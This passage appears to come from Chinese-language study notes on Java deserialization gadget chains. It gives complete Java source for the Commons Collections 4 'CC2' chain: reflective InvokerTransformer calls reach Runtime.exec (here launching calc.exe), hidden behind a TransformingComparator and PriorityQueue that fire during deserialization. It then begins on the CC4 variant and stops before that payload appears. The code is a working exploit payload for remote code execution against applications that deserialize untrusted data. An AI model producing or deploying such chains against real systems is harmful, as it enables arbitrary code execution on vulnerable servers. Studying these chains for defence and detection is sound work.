 ```java
package com.example.CommonsCollections2;

import com.example.Reflection;
import com.example.Serialization;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;

import java.util.Comparator;
import java.util.PriorityQueue;

public class CommonsCollections2 {
    public static void main(String[] args) throws Exception{

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getDeclaredMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});

        Comparator comparator = new TransformingComparator(transformerChain); // 实例化 TransformingComparator 并传入 ChainedTransformer

        PriorityQueue priorityQueue = new PriorityQueue(2, comparator); // 实例化 PriorityQueue 并传入 comparator
        priorityQueue.add(1);
        priorityQueue.add(2); // 至少添加两个元素才会触发 compare 方法

        Reflection.setFieldValue(transformerChain, "iTransformers", transformers);
        Serialization.test(priorityQueue);

    }
}
```

## CommonsCollections4

cc4 就是将 cc2 的 InvokerTransformer 替换成了 InstantiateTransforme, 然后利用 TemplatesImpl 来执行字节码

直接给出 payload
